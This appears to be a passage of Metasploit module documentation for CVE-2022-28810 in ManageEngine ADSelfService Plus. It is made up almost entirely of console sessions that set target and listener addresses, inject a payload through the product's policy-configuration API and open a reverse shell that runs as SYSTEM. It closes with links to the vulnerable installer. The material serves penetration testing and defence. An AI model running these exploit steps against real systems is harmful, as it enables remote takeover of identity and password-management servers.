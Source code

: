 ```
[*] Running automatic check ("set AutoCheck false" to disable)
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [+] The target appears to be vulnerable. This determination is based on the version string: 6121.
[+] Authentication successful
[*] Requesting policy list from /ServletAPI/configuration/policyConfig/getPolicyConfigDetails
[*] Requesting policy details for okhuman.ninja
[*] Enabling custom scripts and inserting the payload
[*] Posting updated policy configuration to /ServletAPI/configuration/policyConfig/setAPCDetails
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.20:50035 ) at 2022-04-19 09:10:37 -0700

msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > sessions 1
[*] Starting interaction with 1...


Shell Banner:
Microsoft
-----
          

C:\ManageEngine\ADSelfService Plus\bin>whoami
whoami
nt authority\system
```

### Successful exploitation of ADSelfService Plus 6121 on Windows 10 over HTTP for a powershell reverse shell

```
msf > use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810
[*] Using configured payload cmd/windows/jjs_reverse_tcp
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RHOST 10.0.0.20
RHOST => 10.0.0.20
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set SHELL powershell.exe
SHELL => powershell.exe
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 0.

[*] Running automatic check ("set AutoCheck false" to disable)
msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [-] Exploit aborted due to failure: unknown: Cannot reliably check exploitability. The target failed to respond to check. "set ForceExploit true" to override check result.

msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 1.

msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This determination is based on the version string: 6121.
[+] Authentication successful
[*] Requesting policy list from /ServletAPI/configuration/policyConfig/getPolicyConfigDetails
[*] Requesting policy details for okhuman.ninja
[*] Enabling custom scripts and inserting the payload
[*] Posting updated policy configuration to /ServletAPI/configuration/policyConfig/setAPCDetails
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.20:50060 ) at 2022-04-19 10:15:20 -0700

msf exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > sessions 1
[*] Starting interaction with 1...
```

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6121/ManageEngine_ADSelfService_Plus_64bit.exe